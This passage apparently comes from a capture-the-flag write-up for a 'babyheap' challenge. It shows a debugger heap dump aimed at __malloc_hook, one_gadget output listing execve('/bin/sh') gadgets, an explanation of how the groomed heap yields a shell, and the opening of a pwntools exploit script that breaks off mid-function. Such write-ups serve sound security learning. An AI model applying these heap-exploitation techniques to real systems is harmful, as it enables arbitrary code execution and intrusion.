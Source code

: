 ```
0x55d01d7cc900: 0x3131313131313131  0x3131313131313131
0x55d01d7cc910: 0x3131313131313131  0x3131313131313131
0x55d01d7cc920: 0x3131313131313131  0x3131313131313131
0x55d01d7cc930: 0x3131313131313131  0x3131313131313131
0x55d01d7cc940: 0x3131313131313131  0x3131313131313131
0x55d01d7cc950: 0x3131313131313131  0x3131313131313131
0x55d01d7cc960: 0x7fea6bc49c30  0x55d01d7cc010
0x55d01d7cc970: 0x0 0x0
0x55d01d7cc980: 0x0 0x0
gef➤  x/g 0x7fea6bc49c30
0x7fea6bc49c30 <__malloc_hook>: 0x0
```

Now that that is done, we can just allocate chunks until we get malloc to return a pointer to the malloc hook (which due to how we groomed the heap, is only two). Proceeding that we can just get the program to call malloc, and we get a shell. Also we need to get our oneshot gadget:

```
$ one_gadget libc.so
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Exploit

Putting it all together, we get the following exploit. This exploit was ran on Ubuntu `19.04`:

```
from pwn import *

#target = process('./babyheap', env={"LD_PRELOAD":"./libc.so"})
target = process('./babyheap')
gdb.attach(target, gdbscript='pie b *0x147b')
libc = ELF('libc.so')

# Helper functions to handle I/O with program
def ri():
  print target.recvuntil('>')

def malloc(content, size, new=0):
  ri()  
  target.sendline('M')
  ri()
  target.sendline(str(size))
  ri()
  if new == 0:
            target.sendline(content)
  else:
      target.send(content)
```